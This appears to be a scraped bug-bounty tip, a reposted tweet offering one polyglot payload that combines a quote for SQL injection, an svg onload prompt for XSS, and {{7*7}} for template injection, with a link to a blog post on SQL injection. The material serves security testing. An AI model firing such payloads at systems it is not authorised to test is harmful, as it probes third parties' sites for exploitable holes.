https://twitter.com/hossamsec/status/1099393131701768194

### XSS + SQLi + SSTI/CSTI
To test XSS + SQLi + SSTI/CSTI with the same payload use : 
```js
'"><svg/onload=prompt(5);>{{7*7}}
```
' ==> for Sql injection 

"><svg/onload=prompt(5);> ==> for XSS 

{{7*7}} ==> for SSTI/CSTI

#1850

3:38 AM · Feb 24, 2019
342 Retweets
7 Quotes
708 Likes

http://mahmoudsec.blogspot.com/2017/02/sql-injection-in-update-query-bug.html
